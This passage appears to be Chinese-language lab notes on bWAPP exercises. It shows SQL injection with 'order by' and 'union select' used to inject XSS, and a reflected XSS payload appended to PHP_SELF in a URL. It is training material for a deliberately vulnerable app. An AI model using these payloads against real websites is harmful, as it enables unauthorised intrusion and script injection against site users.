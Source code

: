 首先通过SQL注入确定所查询表的列数：`' order by n #  `

当n为5时报错，说明所查询表为4列

![img](https://raw.githubusercontent.com/Mouka-Yang/WebPentest/master/screen_shots/企业微信截图_15619487177043.png)

由于登录后页面会显示登录用户的用户名，因此可以通过SQL注入替换查询返回的用户名为XSS代码，如下所示

输入`' and 1=2 union all select null, "<script>alert(1)</script>", null,null # `

**（注意，`用户名`列不一定为第二列，需要逐个尝试）**

构造查询

```mysql
select c1,c2,c3,c4 from table 
	where username='' and 1=2
union all
select null, "<script>alert(1)</script>", null, null
```

SQL查询只会返回注入 的XSS代码，并由服务器将其插入到HTML中，从而触发XSS

![img](https://raw.githubusercontent.com/Mouka-Yang/WebPentest/master/screen_shots/企业微信截图_15619490851421.png)



### Medium

使用`addslashes`防御SQL注入

## 0x09 XSS - Reflected(PHP_SELF)

PHP中，`$_SERVER['PHP_SELF']`表示当前执行的PHP脚本的名称，例如

```php
// http://someurl/foo.php/ --> PHP_SELF is foo.php
// http://someurl/foo.php/bar --> PHP_SELF is foo.php/bar !!
```

`PHP_SELF`通常用于Form框中，用来将当前脚本名写入Form的`action`属性，例如

```php
<form name="test" action="<?php echo $_SERVER['PHP_SELF']; ?>" method="post">
```

### Low

由于`PHP_SELF`会返回当前脚本名+**其后跟随的字符串**，因此可以考虑在当前脚本名后注入XSS代码，例如如下URL

```
http://bwapp/bWAPP/xss_php_self.php/%22%3E%3Cscript%3Ealert('xss')%3C/script%3E%3Cfoo%22
```

`PHP_SELF`的值为 `xss_php_self.php/%22%3E%3Cscript%3Ealert('xss')%3C/script%3E%3Cfoo%22`

因此将构成如下Form元素，从而触发XSS

![img](https://raw.githubusercontent.com/Mouka-Yang/WebPentest/master/screen_shots/企业微信截图_15619664162245.png)
